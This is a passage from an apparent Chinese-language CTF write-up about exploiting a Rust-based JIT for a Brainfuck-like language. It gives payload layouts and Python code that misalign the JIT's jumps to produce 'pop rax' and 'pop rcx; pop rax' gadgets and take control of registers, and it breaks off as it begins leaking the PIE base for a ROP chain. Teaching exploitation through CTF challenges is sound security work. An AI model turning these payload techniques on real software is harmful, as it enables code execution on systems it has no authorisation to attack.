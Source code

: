 ```py
```

--------

### 控制`rax`, `rcx`寄存器

通过以上分析，就可以构造`pop rax`的循环( 程序会在`]`处进行条件跳转，目标是与之对应的`[`结束的位置，故把`payload`分为两段先后送入程序 ):  

__值得注意的是，若`payload1`中`[`所对应的跳转地址比`calcLen(payload1)`大，则`rust`会报错__

```
// payload1:
0x00e 		'_' * 0x12
0x020 		'['
0x02a 		(pop rax)

// payload2:
0x00e 		','
0x02b 		','
0x048 		']' -> 0x02a_pop_rax
```
即:
```py
payload1 = b'_'*0x12 + b'['
payload2 = b',,]'
payload1 = payload1.ljust(calcLen(payload2), b'_')
```
测试发现成功控制`rax`;


在此基础上构造循环`pop rcx; pop rax;`:
```
// payload2 = b',,,],]'
// payload1:
0x00e 		'_' * 0x11
0x01f 		'['
0x029 		'_' * 0x14
0x03d 		'['
0x047 		(pop_rcx_rax)

// payload2:
0x00e 		','
0x02b 		','
0x048 		','
0x065		']' -> 0x029_pop_rax
0x06f 		','
0x08c 		']' -> 0x047_pop_rcx_rax
```

--------

### 泄露`PIE`偏移

程序实现的`jit`中将`rcx`用于定位写入的地址，一开始的想法是将`rcx`劫持到一块可写可执行的内存区域进行`ret2shellcode`，但是程序中并没有找到合适的空间，同时程序的`plt`表上什么也没有，就只能考虑更麻烦的`ROP`，由于`PIE`的存在，第一步自然是泄露`elf`基址:  
